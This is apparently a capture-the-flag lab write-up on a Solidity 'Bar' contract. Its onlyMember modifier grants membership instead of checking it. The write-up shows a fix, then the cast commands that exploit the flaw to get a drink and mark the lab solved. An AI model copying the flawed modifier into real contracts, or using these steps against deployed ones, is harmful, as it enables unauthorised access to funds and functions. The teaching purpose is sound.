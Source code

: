 ## Mitigation

Knowing that the problem is very simple, the modifier *onlyMember()* doesn't actually check if the *msg.sender* is a member or not,but it just makes the *msg.sender* a member. This is an example of how a logic error could lead to incorrect access control in a smart contract! To fix this issue, we can just modify the modifier to become like this &nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.25;

contract Bar{

    address public owner;
    mapping(address => bool) public barMember;
    mapping(address => uint) public beerGlass;
    mapping(address => uint256) public balance;

    constructor() payable{
        owner = msg.sender;
    }

    function register() public payable isHuman{
        // You can register here, but still need the Owner to add you in.
        require(msg.value >= 1e18, "Need 1 ether deposit.");
        balance[msg.sender] += msg.value;
    }

    function addMember(address _addMember) public isHuman onlyOwner(_addMember){
        require(balance[_addMember] > 0, "You need to deposit some money to become a member.");
        barMember[_addMember] = true;
    }

    function getDrink() public isHuman onlyMember{
        require(balance[msg.sender] > 0, "You need to deposit some money.");
        beerGlass[msg.sender]++;
    }

    modifier isHuman(){
        require(msg.sender == tx.origin, "Only Human Allowed in this Bar!");
        _;
    }

    modifier onlyOwner(address _addMember) {
        require(owner == msg.sender, "Only Owner can add Member!");
        _;
    }

    modifier onlyMember() {
        // Change this to require to perform the check
        require(barMember[msg.sender] == true, "only member is allowed to enter!");
        _;
    }

    receive() external payable{
        balance[msg.sender] += msg.value;
    }
    
}
```
&nbsp;  
By adding the proper check for *barMember* at *onlyMember()*, we can make sure that only the *owner* can approve a member registration and make them a member once it is done!

## Walkthrough
To solve the lab, we need to make *Setup::playerSolved()* return true. Here is the code.
&nbsp;  
&nbsp;  
```solidity
function solvedByPlayer() public {
    playerSolved = bar.beerGlass(msg.sender) >= 1 ? true : false;
}

function isSolved() public view returns(bool){
    return playerSolved;
}
```
&nbsp;  
We first need to call the *solvedByPLayer()* function, because that function will update the state of the *playerSolved()* bool. After that, we can just simply press the *Flag* button on the instance. Let's first look for a function that will modify *beerGlass*.
&nbsp;  
&nbsp;  
```solidity
function register() public payable isHuman{
    // You can register here, but still need the Owner to add you in.
    require(msg.value >= 1e18, "Need 1 ether deposit.");
    balance[msg.sender] += msg.value;
}

function addMember(address _addMember) public isHuman onlyOwner(_addMember){
    require(balance[_addMember] > 0, "You need to deposit some money to become a member.");
    barMember[_addMember] = true;
}

function getDrink() public isHuman onlyMember{
    require(balance[msg.sender] > 0, "You need to deposit some money.");
    require(barMember[msg.sender] == true);
    beerGlass[msg.sender]++;
}
```
&nbsp;  
We have some options. There are *register()*, *addMember()*, and *getDrink()*; based on what we need, we have to call *getDrink()*, but there is a modifier called *onlyMember* and *isHuman*, plus we need our balance to be greater than zero. From the function alone, what we can tell is that to become a member, the *owner* must add the member manually by calling the *addMember()*; we can still call *register()* with the value 1 ether. Let's look at the rest of the code now. &nbsp;  
&nbsp;  
```solidity
modifier isHuman(){
    require(msg.sender == tx.origin, "Only Human Allowed in this Bar!");
    _;
}

modifier onlyOwner(address _addMember) {
    require(owner == msg.sender, "Only Owner can add Member!");
    _;
}

modifier onlyMember() {
    barMember[msg.sender] = true;
    _;
}

receive() external payable{
    balance[msg.sender] += msg.value;
}
```
&nbsp;  
There are 3 modifiers that exist in the contract. The *isHuman()* modifier ensures that the *msg.sender* is the same as *tx.origin*, meaning only EOA can interact with the contract. The *onlyOwner()* has 1 parameter, which is *_addMember*. Now *onlyMember()* modifier is quite different from another modifier, instead of ensuring a condition, it actually sets a condition, especially *msg.sender*; it sets the *barMember[msg.sender]* to become true, this is clearly a flaw by the developer. &nbsp;  
&nbsp;  
Earlier we knew that the *getDrink()* function used this modifier. This means what left now is giving ourselves some balance either by calling the *register()* function or directly sending the contract some balance because it has *receive() external payable* defined there and directly adds the amount to our balance. Okay then, the solution should be &nbsp;  
&nbsp;  
```bash
// get the bar contract address
cast call -r $RPC_URL $SETUP_ADDR "bar()"

// send some money to the contract
cast send -r $RPC_URL --private-key $PK $BAR_ADDR --value 1ether

// get ourselves some drink
cast send -r $RPC_URL --private-key $PK $BAR_ADDR "getDrink()"

// call setup.sol::solvedByPlayer()
cast send -r $RPC_URL --private-key $PK $SETUP_ADDR "solvedByPlayer()"
```
&nbsp;  
After that we just need to click the Flag, and we should've solved the lab.